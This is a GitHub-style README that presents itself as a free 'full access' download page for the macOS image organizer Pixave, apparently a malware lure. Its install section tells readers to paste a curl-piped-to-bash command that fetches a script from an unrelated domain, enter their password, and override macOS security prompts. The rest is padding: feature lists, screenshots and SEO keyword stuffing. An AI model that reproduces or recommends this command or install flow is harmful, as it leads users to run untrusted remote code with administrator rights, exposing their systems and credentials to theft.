 <p align="center">
  <img src="https://i.ibb.co/fVB5HRsX/1684337940-icon.webp" alt="Pixave macOS Banner" />
</p>

<h1 align="center">Pixave for macOS</h1>

<p align="center">
  🖼️ A powerful image organizer and inspiration manager built for creatives and designers.  
  <br><br>
  ✅ Supports macOS Sonoma, Ventura, Monterey  
  ✅ Apple Silicon & Intel Native  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/204" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20PIXAVE%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Pixave for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/C3dKDpSN/1670168303-1.jpg" alt="Pixave UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Pixave for macOS?

**Pixave for macOS** is a smart visual organizer that helps designers, illustrators, and content creators collect, manage, and reference all their images, assets, and inspiration. Whether you're working with photos, UI references, logos, or textures, Pixave gives you tools to tag, color-sort, group, and search instantly.

It supports a wide variety of file types, including PNG, JPG, PSD, GIF, and even animated content. With drag-and-drop export, automatic folder watching, and a built-in color palette tool, Pixave becomes an essential part of any creative workflow.

Works entirely offline and runs natively on Apple Silicon.

---

## ✅ Why Choose Pixave?

- 🏷️ **Tag-Based Organization & Smart Folders**  
- 🎨 **Color Search & Auto Palette Detection**  
- 🖇️ **Library Management for Multiple Projects**  
- 📁 **Folder Watching & Auto Import**  
- 🖼️ **Support for PSD, GIF, PDF, AI, and More**  
- 🚀 **Fast Preview & Export Tools**  
- 🍎 **Optimized for M1/M2/M3 Macs**  
- 💼 **Perfect for Moodboards and Reference Libraries**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/zTPBXKT7/1670168303-2.jpg" alt="Pixave Smart Folders View Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/HfD64jdr/1670168304-3.jpg" alt="Pixave Tag + Color Search Screenshot" />
</p>

---

## 🚀 Key Features

- Drag-and-drop interface for adding and exporting images  
- Visual browser with zoom, grid, and list views  
- Built-in palette extractor for any image  
- Custom tags and metadata  
- Timeline view for organizing chronologically  
- Library sync across projects (manual, offline)  
- Minimal CPU and RAM usage  
- Native support for Apple Silicon

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow the app manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Image+Organizer+Asset+Manager-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Color+Tag+Reference+Tool-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Pixave – Organize Your Visual World

Thanks for using **Pixave for macOS**.  
Built for visual thinkers and creators.

---

## 🧭 Usage Context

Pixave is intended for local asset curation, design research, and content library building.  
It works fully offline and respects user privacy.

No telemetry. No sync. Just your visual world – organized.

---

## 🔍 Tags

```text
pixave for mac download, visual asset manager macos, tag based image organizer mac, pixave color palette extractor mac, creative library tool macbook, moodboard reference app for mac, pixave m1 native version mac, inspiration collection tool macos, designer image curation software mac, smart folders and tags pixave mac, organize image library macbook pro, pixave for mac full version download, offline visual library manager mac, best image catalog app for mac, color based image filter mac pixave
